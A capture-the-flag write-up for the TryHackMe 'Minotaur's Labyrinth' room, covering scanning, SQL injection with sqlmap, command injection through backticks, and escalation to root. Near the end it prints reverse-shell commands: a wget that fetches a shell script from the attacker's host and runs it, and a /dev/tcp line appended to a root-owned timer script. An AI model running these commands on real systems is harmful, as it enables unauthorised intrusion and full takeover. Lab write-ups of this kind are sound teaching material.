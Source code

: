 #  [Minotaur's Labyrinth (TryHackMe)](https://tryhackme.com/room/labyrinth8llv)
Creators: [xenox](https://tryhackme.com/p/xenox) & [spayc](https://tryhackme.com/p/spayc)

First an initial scan with rustscan:


<code>rustscan -a 10.10.139.83 --ulimit 5000</code>  


![PICTURE_RUSTSCAN](https://user-images.githubusercontent.com/93183445/140650388-04ab3337-b42c-4bd8-a1ab-cd0daca6c247.png)


After that, let's throw nmap at it:

<code>nmap -sV -sC 10.10.139.83</code>  

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/140650415-24920e15-df4b-4513-9f75-8589d4ab716f.png)

Let's see what the fuzz is all about:

<code>ffuf -u http://10.10.139.83/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>  

While ffuf is doing its thing, I'll take a look at the ftp which allows anonymous login..
In the ftp directories is some rather interesting stuff, it looks like:

![PIC_FTP1](https://user-images.githubusercontent.com/93183445/140650439-3f17a701-b07c-4d76-aa5b-7c7bcc692865.png)

message.txt:  
<code>Daedalus is a clumsy person, he forgets a lot of things arount the labyrinth, have a look around, maybe you'll find something :)
-- Minotaur</code>

Let's explore further :)

![PIC_FTP2](https://user-images.githubusercontent.com/93183445/140650455-e0da12ec-90bd-451b-978c-88a7b2a8506e.png)

Aaaand we got the fist flag!!!

keep_in_mind.txt (this info will come in handy a bit later):  
<code>Not to forget, he forgets a lot of stuff, that's why he likes to keep things on a timer ... literally
-- Minotaur</code>

While ffuf is still running, I'm going to take a look at the website:

![PIC_WEB1](https://user-images.githubusercontent.com/93183445/140650473-eaeb3905-efe9-4ea6-928d-c58b19b691a5.png)

No matter what I typed in, there seems to happen no response what so ever. Let's take a look at the source:  
(The hyperlinks are not what they seem, but go for it, if you feel adventurous, lol)

The source code reveals:

![PIC_WEB2](https://user-images.githubusercontent.com/93183445/140650530-b1c3ac5c-9e94-4b87-9bb4-ded0ae887ac5.png)

A look at "view-source:http://10.10.139.83/js/login.js" also reveals nothing of value..

In the meantime ffuf managed to finish:

![PIC_FUFF](https://user-images.githubusercontent.com/93183445/140650575-eccbffef-c76e-44a0-9854-bb71b9747314.png)

Going through the directories, we can find something interesting in the logs directory.
It looks like a captured Burp request which reveals credentials.

---------------------------------------------------------------------------------

POST /minotaur/minotaur-box/login.php HTTP/1.1\
Host: 127.0.0.1\
Content-Length: 36\
sec-ch-ua: "Chromium";v="93", " Not;A Brand";v="99"\
Accept: */*\
Content-Type: application/x-www-form-urlencoded; charset=UTF-8\
X-Requested-With: XMLHttpRequest\
sec-ch-ua-mobile: ?0\
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36\
sec-ch-ua-platform: "Windows"\
Origin: http://127.0.0.1\
Sec-Fetch-Site: same-origin\
Sec-Fetch-Mode: cors\
Sec-Fetch-Dest: empty\
Referer: http://127.0.0.1/minotaur/minotaur-box/login.html\
Accept-Encoding: gzip, deflate\
Accept-Language: de-DE,de;q=0.9,en-US;q=0.8,en;q=0.7\
Cookie: PHPSESSID=8co2rbqdli7itj8f566c61nkhv\
Connection: close\

email=hidden&password=hidden


---------------------------------------------------------------------------------

Because I got no response from the login, I turned to the ftp with these very creds, but this trip led to nowhere..
Out of pure desperateness, I turned to the login page again, and got in :) 

![PIC_LANDING1](https://user-images.githubusercontent.com/93183445/140650895-ae7fdda0-ca6d-4505-86ac-e9750e928900.png)

So far we have two names: 'Daedalus' and 'Minotaur'.  
Plus we can appearantly search for 'People' and 'Creatures'.  
Let's do that...

![PIC_LANDING2](https://user-images.githubusercontent.com/93183445/140650903-8dd321a7-1c95-4fd7-b6dd-b90e9cea2d5e.png)

Seems to be some kind of database thingy.. Let's catch the request with Burp and let sqlmap deal with the heavy load.

<code>sqlmap -r req_master.txt --dbs --batch --time-sec=3</code>

Aaaaand we get a hit:

![PIC_SQLMAP1](https://user-images.githubusercontent.com/93183445/140650920-fe7f8b49-d593-4ee4-a906-6c0cce29b8f4.png)

Dump it:

![PIC_SQLMAP2](https://user-images.githubusercontent.com/93183445/140650926-7ff4ef49-4982-45f4-aed7-72e35b7cf2e0.png)

![PIC_SQLMAP3](https://user-images.githubusercontent.com/93183445/140650932-0d1a0c5a-21c6-4d44-993f-846400eff686.png)

As the newly found user with admin rights is in the same table as Daedalus, with whom we were able to login  
before, let's find out if we get in with these creds, after a short trip to Crackstation..  
(https://crackstation.net)

After we log in, we can find the flag in the upper left corner of the site. Besides that, there is a
hyperlink "Secret_Stuff".  
That sounds interesting enough to follow that. Who could resist that..?

![PIC_LANDING3](https://user-images.githubusercontent.com/93183445/140650947-46ec7a1c-6559-4a86-ab0c-370d925017fe.png)

The link leads to the "secret echo panel". There we can input stuff and it gets reflected on the page. Twice.  
No matter what I was trying in regards to command injection, it didn't get me command execution.  
This site led me finally to using backticks, instead of quotation marks.  
[https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)

\`ls\` shows us:

![PIC_RCE1](https://user-images.githubusercontent.com/93183445/140650956-67398bff-8298-49e7-920f-57642485ca02.png)

So we got rce, let's explore that. And we can find flag3 in the user home directory, which we also are able to read.  

Let's try \`cat /home/user\`

![PIC_RCE2](https://user-images.githubusercontent.com/93183445/140650965-b12da9b1-b7f2-4923-9fc0-c2333e4a7158.png)

Okidoky.. Let's get a shell then. I had to try a few things and ended up with:

\`/usr/bin/wget YOUR-IP/rev.txt -O /tmp/rev.sh\`

Content of rev.txt ([https://www.revshells.com](https://www.revshells.com)):
  
![PIC_REV1](https://user-images.githubusercontent.com/93183445/140651318-d67dd2b4-6a44-4e16-abaf-c89fec962ac7.png)

Set up a local server to serve the shell:  
  
<code>python3 -m http.server 80</code>  
  
Then set up a listener  
  
<code>nc -lnvp 9001</code>
  
and execute the freshly downloaded reverse shell on the target:  
  
\`bash /tmp/rev.sh\`

![PIC_REV2](https://user-images.githubusercontent.com/93183445/140651333-9964013c-007a-45ff-b3f1-e1d662fa0927.png)

After running linpeas.sh and searching around for a bit, I got a tip. Remember the content of one of the files we  
found in the ftp earlier. Where a timer is mentioned? 
There's a file in the root directory that we can write to.  
Plus, it is owned by root.. So let's abuse that and pack a rev-shell in that very file :)

![PIC_REV3](https://user-images.githubusercontent.com/93183445/140651338-c8f5a0cf-5939-4dac-ab46-d50150fe698f.png)
  
<code>echo 'sh -i >& /dev/tcp/YOUR-IP/6666 0>&1' >> timer.sh</code>  

Start another listener and it will connect without any further doing. Now you're root _tataaaa_ \
So let's go and get the final flag in the /root directory:

![PIC_FINAL](https://user-images.githubusercontent.com/93183445/140651348-8391acb8-eb86-438f-9e62-20d61c21fa4f.png)

DONE :)










































